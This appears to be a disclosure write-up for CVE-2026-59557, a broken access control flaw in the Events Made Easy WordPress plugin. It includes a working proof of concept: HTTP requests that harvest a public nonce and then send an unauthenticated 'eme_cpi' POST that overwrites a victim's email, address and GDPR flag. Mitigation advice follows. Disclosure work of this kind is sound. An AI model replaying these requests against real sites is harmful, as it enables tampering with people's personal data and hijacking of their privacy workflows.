






# CVE-2026-59557 - Events Made Easy - Arbitrary Person Record Modification Without Login

## Overview

- Advisory: https://www.cve.org/CVERecord?id=CVE-2026-59557
- CVE-2026-59557
- Affected plugin: Events Made Easy
- Affected version: `<= 3.0.67`



## Summary

The vulnerability is located in the AJAX action used by the Events Made Easy personal information change flow:

```text
POST /wp-admin/admin-ajax.php?action=eme_cpi
```

The plugin has a mechanism for creating a separate personal information change link for each person record using a nonce tied to `person_id` and the original email:

```php
wp_create_nonce( "change_pi $person_id $orig_email" )
```

However, the AJAX endpoint that actually updates the record does not verify this separate token. Instead, it only checks the common frontend nonce `eme_frontend_nonce`. This nonce is publicly exposed on frontend pages with an EME shortcode, for example a page containing:

```text
[eme_request_personal_info]
```

Because `eme_frontend_nonce` is a public nonce intended for visitors, an attacker does not need to log in to obtain the nonce from the frontend HTML/JavaScript and then send an `eme_cpi` request with any `person_id` and new personal data.

As a result, the attacker can modify arbitrary EME person records, including the email, phone, address, city, ZIP, GDPR flag, and the submitted fields.

## How I Found It

I inspected the GDPR/personal information flows of Events Made Easy because these flows commonly allow users to view or update personal data through links sent by email.

The source contains a function that creates the personal information change URL:

```php
function eme_cpi_url( $person_id, $orig_email ) {
    $nonce = wp_create_nonce( "change_pi $person_id $orig_email" );
    ...
}
```

This shows that the correct flow should require a separate token for each person record and original email.

However, the public AJAX action is registered for unauthenticated users as well:

```php
add_action( 'wp_ajax_nopriv_eme_cpi', 'eme_cpi_ajax' );
```

In `eme_cpi_ajax()`, the endpoint only checks the common frontend nonce:

```php
if ( ! isset( $_POST['eme_frontend_nonce'] ) || ! wp_verify_nonce( eme_sanitize_request($_POST['eme_frontend_nonce']), "eme_frontend" ) ) {
    ...
}

[$person_id, $add_update_message] = eme_add_update_person_from_form( $person_id );
```

There is no check for an `eme_cpi_nonce` in the form of:

```text
change_pi $person_id $orig_email
```

There is also no check that the caller owns that `person_id`.

From there, I created a frontend page with an EME shortcode to obtain the public nonce, then sent an unauthenticated `eme_cpi` request with `person_id=1`. The record was successfully updated.

## Root Cause

The root cause is that the personal information update endpoint trusts a public frontend nonce instead of verifying ownership of the specific person record.

### 1. Public Frontend Nonce Can Be Obtained Without Login

The frontend page with the EME shortcode renders the nonce:

```html
<input type="hidden" id="eme_frontend_nonce" name="eme_frontend_nonce" value="a2906038d2" />
```

This nonce also appears in the JavaScript config:

```js
var emebasic = {
    "translate_ajax_url":"http://192.168.1.14:8095/wp-admin/admin-ajax.php",
    "translate_frontendnonce":"a2906038d2"
};
```

This is a common frontend nonce and does not prove that the attacker owns the person record.

### 2. AJAX Action Allows Unauthenticated Users

Public hook:

```php
add_action( 'wp_ajax_nopriv_eme_cpi', 'eme_cpi_ajax' );
```

Because `wp_ajax_nopriv_eme_cpi` exists, an attacker who is not logged in can still call the action:

```text
action=eme_cpi
```

### 3. Endpoint Does Not Check `eme_cpi_nonce`

The correct link-generation flow has a separate nonce:

```php
wp_create_nonce( "change_pi $person_id $orig_email" )
```

However, the update endpoint only checks:

```php
wp_verify_nonce($_POST['eme_frontend_nonce'], "eme_frontend")
```

Therefore, a public frontend nonce alone is sufficient to update the record.

### 4. Attacker-Controlled `person_id` Goes Directly Into the Update

The endpoint receives `person_id` from POST and then calls:

```php
eme_add_update_person_from_form( $person_id )
```

In `includes/eme-people.php`, data from `$_POST` is placed into `$person`:

```php
if ( ! eme_is_empty_string( $_POST['email'] ) ) {
    $person['email'] = eme_sanitize_email( $_POST['email'] );
}
...
$updated_personid = eme_db_update_person( $person_id, $person );
```

The final sink is:

```php
eme_db_update_person( $person_id, $person )
```

## Exploit Flow

```text
Attacker is not logged in
        |
        v
GET a frontend page with an EME shortcode
        |
        v
Obtain the public eme_frontend_nonce
        |
        v
POST /wp-admin/admin-ajax.php
action=eme_cpi
person_id=<victim_person_id>
eme_frontend_nonce=<public_nonce>
email=<attacker_email>
address/city/zip/phone/gdpr=<new_values>
        |
        v
eme_cpi_ajax()
        |
        v
Only verify the "eme_frontend" nonce
        |
        v
eme_add_update_person_from_form(person_id)
        |
        v
eme_db_update_person(person_id, attacker_data)
        |
        v
The victim's person record is modified
```

- Entry point: `POST /wp-admin/admin-ajax.php?action=eme_cpi`
- Condition: The site has at least one EME person record and a frontend page that exposes `eme_frontend_nonce`.
- Trigger: Send the victim's `person_id` together with replacement data.
- Callback: `eme_cpi_ajax()` in `includes/eme-gdpr.php`
- Sink: `eme_db_update_person()` through `eme_add_update_person_from_form()`
- Final result: An unauthenticated attacker can modify an arbitrary EME person record.

## PoC

Lab environment:

```text
Target: http://192.168.1.14:8095
WordPress: 6.9.4
PHP: 8.3.30
Events Made Easy: 3.0.67
Authentication: Not logged in
```

Initial person record:

```text
person_id: 1
lastname: VictimLast
firstname: VictimFirst
email: victim-95@example.test
phone: +1-555-0101
address1: 123 Secret Street
city: Private City
zip: 90210
gdpr: 0
```



#### Obtain the Public Frontend Nonce

Create or use a public page that enqueues EME frontend assets, for example a page containing the shortcode:

```text
[eme_request_personal_info]
```



Request:

```http
GET /eme-cpi-poc/ HTTP/1.1
Host: 192.168.1.14:8095
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: wp-settings-time-2=1785078740; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US
Connection: keep-alive

```

Response:

```html
...
<input type="hidden" id="eme_frontend_nonce" name="eme_frontend_nonce" value="a2906038d2" />
...
"translate_frontendnonce":"a2906038d2",
...
```



#### Modify the Person Record Without Login

Request:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 192.168.1.14:8095
User-Agent: Mozilla/5.0
Accept: */*
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 194

action=eme_cpi&honeypot_check=&person_id=1&eme_frontend_nonce=a2906038d2&lastname=&firstname=&email=attacker-95%40example.com&address1=Changed+By+Unauth&city=Exploit+City&zip=1337&phone=%2B1-555-9999&gdpr=1
```

Response:

```http
HTTP/1.1 200 OK
Date: Thu, 30 Jul 2026 06:55:45 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: PHP/8.3.30
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self';
Content-Length: 46
Connection: close
Content-Type: text/html; charset=UTF-8

{"Result":"OK","htmlmessage":"Person updated"}
```



#### Server-Side After Exploitation



Comparison:

```text
Before exploitation:
email           =       victim-95@example.test
phone           =       +1-555-0101
address1        =       123 Secret Street
city            =       Private City
zip             =       90210
gdpr            =       0

After exploitation:
email           =       attacker-95@example.com
phone           =       +1-555-9999
address1        =       Changed By Unauth
city            =       Exploit City
zip             =       1337
gdpr            =       1
```

Record `person_id=1` was modified by an unauthenticated request using only the public `eme_frontend_nonce`.

## Impact

An unauthenticated attacker can arbitrarily modify EME person records.

These records may be used for:

1. Event booking.
2. Membership/customer records.
3. Mailing preferences.
4. GDPR approval state.
5. Personal data workflow.

Practical impact:

1. Replace the victim's email with the attacker's email.
2. Redirect notification or privacy workflow emails to the attacker.
3. Modify the phone number, address, city, ZIP, and GDPR status.
4. Corrupt attendee/member data in the system.
5. Support follow-on steps if the plugin relies on the email in the person record to send a link for accessing personal data.

The main danger is that the attacker does not need a WordPress account; they only need to obtain the public frontend nonce and know or guess the `person_id`.

## Limitations

- The site must have Events Made Easy enabled.
- The site must have at least one person record.
- The attacker must obtain `eme_frontend_nonce` from a frontend page with EME assets.
- The attacker must know or guess the `person_id`.
- The vulnerability does not directly create WordPress admin privileges or RCE.

## Mitigation

The personal information update endpoint must not rely only on `eme_frontend_nonce`.

Main remediation options:

1. Verify the separate nonce created by `wp_create_nonce("change_pi $person_id $orig_email")`.
2. Bind the token to the correct `person_id` and the record's original email.
3. Do not allow `wp_ajax_nopriv_eme_cpi` to update a record using only the public nonce.
4. If logged-in users are supported, check whether the current user owns the person record.
5. Do not allow an attacker to submit an arbitrary `person_id` without proof of ownership.
6. Log and rate-limit personal information update requests from unauthenticated users.

Safer flow:

```text
Receive the eme_cpi request
        |
        v
Check eme_frontend_nonce for basic CSRF protection
        |
        v
Check the separate eme_cpi_nonce for "change_pi $person_id $orig_email"
        |
        v
Match person_id + original email + token
        |
        v
Only update if the caller proves ownership of the record
```

The request should be rejected if it does not contain a valid `eme_cpi_nonce` or if the user cannot prove authorization over the record.

## References

- Events Made Easy: https://wordpress.org/plugins/events-made-easy/
- Patchstack researcher: https://patchstack.com/database/wordpress/plugin/events-made-easy/vulnerability/wordpress-events-made-easy-plugin-3-1-3-broken-access-control-vulnerability
- WordPress plugin source tag 3.0.67: https://plugins.svn.wordpress.org/events-made-easy/tags/3.0.67/
- WordPress plugin source tag 3.1.4: https://plugins.svn.wordpress.org/events-made-easy/tags/3.1.4/
